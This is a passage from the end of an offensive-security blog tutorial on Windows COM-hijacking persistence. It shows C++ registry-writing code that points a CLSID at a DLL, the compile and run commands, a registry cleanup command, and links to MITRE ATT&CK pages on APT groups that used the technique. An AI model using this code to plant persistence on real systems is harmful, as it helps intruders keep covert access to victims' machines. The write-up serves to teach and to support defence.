 ```cpp
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, NULL, 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  } else {
    printf("cannot create subkey for hijacking :(\n");
    return -1;
  }
  return 0;
}
```

compile it:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/53/2022-05-02_18-59.png){:class="img-responsive"}    

and run:

```powershell
.\pers.exe
```

![pers](/assets/images/53/2022-05-02_19-45.png){:class="img-responsive"}    

As you can see, everything is work perfectly :)

Cleaning after completion of experiments:
```powershell
reg delete "HKCU\Software\Classes\CLSID\{A6FF50C0-56C0-71CA-5732-BED303A59628}" /f
```

![pers](/assets/images/53/2022-05-02_19-53.png){:class="img-responsive"}    

### conclusion

An attacker can employ a not-so-common but widely used technique to ensure silent persistence in a system after executing this actions. In the wild, this trick was often used by groups such as [APT 28](https://attack.mitre.org/groups/G0007/), [Turla](https://attack.mitre.org/groups/G0010/), as well as [Mosquito](https://attack.mitre.org/software/S0256/) backdoor.

[COM hijacking MITRE ATT&CK](https://attack.mitre.org/techniques/T1546/015/)    
[APT 28](https://attack.mitre.org/groups/G0007/)    
[Turla](https://attack.mitre.org/groups/G0010/)    
[RegCreateKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regcreatekeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[reg import](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-import)    
[reg export](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-export)    
[reg delete](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-delete)    
[source code in github](https://github.com/cocomelonc/2022-05-02-malware-pers-3)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
